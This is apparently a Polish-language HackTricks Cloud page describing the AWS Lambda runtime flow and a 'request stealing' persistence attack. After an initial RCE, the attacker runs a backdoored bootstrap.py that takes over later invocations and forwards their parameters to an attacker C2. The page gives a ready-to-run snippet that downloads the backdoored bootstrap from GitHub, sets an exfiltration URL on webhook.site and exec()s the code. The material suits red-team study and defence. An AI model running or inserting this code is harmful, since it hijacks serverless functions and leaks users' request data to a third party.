 # AWS - Kradzież Żądań Lambda

{% hint style="success" %}
Ucz się i ćwicz hakowanie AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz hakowanie GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Przepływ Lambda

<figure><img src="../../../../.gitbook/assets/image (152).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła** **wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, udostępniając kilka interesujących punktów końcowych:
* **`/2018-06-01/runtime/invocation/next`** – pobiera następne zdarzenie wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwraca odpowiedź handlera dla wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwraca błąd wykonania
3. **bootstrap.py** ma pętlę pobierającą wywołania z procesu init i wywołuje kod użytkownika, aby je obsłużyć (**`/next`**).
4. Na koniec, **bootstrap.py** wysyła do init **odpowiedź**

Należy zauważyć, że bootstrap ładuje kod użytkownika jako moduł, więc każde wykonanie kodu przez kod użytkownika faktycznie odbywa się w tym procesie.

## Kradzież Żądań Lambda

Celem tego ataku jest zmuszenie kodu użytkownika do wykonania złośliwego procesu **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób, złośliwy proces bootstrap zacznie **rozmawiać z procesem init**, aby obsługiwać żądania, podczas gdy **legalny** bootstrap będzie **uwięziony** uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.&#x20;

To proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez legalny proces **`bootstrap.py`**. Więc atakujący mógłby:

* **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
* Żądanie musi być wysłane do **`/${invoke-id}/response`**&#x20;
* Invoke-id można uzyskać ze stosu legalnego procesu **`bootstrap.py`** za pomocą modułu python [**inspect**](https://docs.python.org/3/library/inspect.html) (jak [proponowane tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) lub po prostu żądając go ponownie do **`/2018-06-01/runtime/invocation/next`** (jak [proponowane tutaj](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Wykonaj złośliwy **`boostrap.py`**, który będzie obsługiwał następne wywołania
* Dla celów ukrycia można wysłać parametry wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsługiwać żądania jak zwykle.
* Dla tego ataku wystarczy uzyskać oryginalny kod **`bootstrap.py`** z systemu lub [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambda.

### Kroki Ataku

1. Znajdź podatność **RCE**.
2. Wygeneruj **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Wykonaj** złośliwy bootstrap.

Możesz łatwo wykonać te działania, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) albo **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **repozytoriów na GitHubie**.

</details>
{% endhint %}
